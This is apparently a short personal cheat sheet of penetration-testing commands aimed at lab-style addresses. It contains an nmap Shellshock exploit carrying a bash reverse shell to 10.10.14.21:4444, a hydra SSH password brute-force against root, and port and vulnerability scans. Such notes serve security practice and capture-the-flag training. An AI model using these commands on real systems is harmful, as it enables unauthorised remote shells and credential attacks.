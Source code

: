 ###
```
nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=bin/bash /bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" 10.129.1.175
```
```
sudo masscan -p1-65535,U:1-65535 10.10.10.161 --rate=1000 -e tun0
```
### hydra
```
 hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
 ```

https://www.stationx.net/nmap-cheat-sheet/
### Vuln
```
nmap --script vuln -oA vuln-scan 10.10.10.79

```

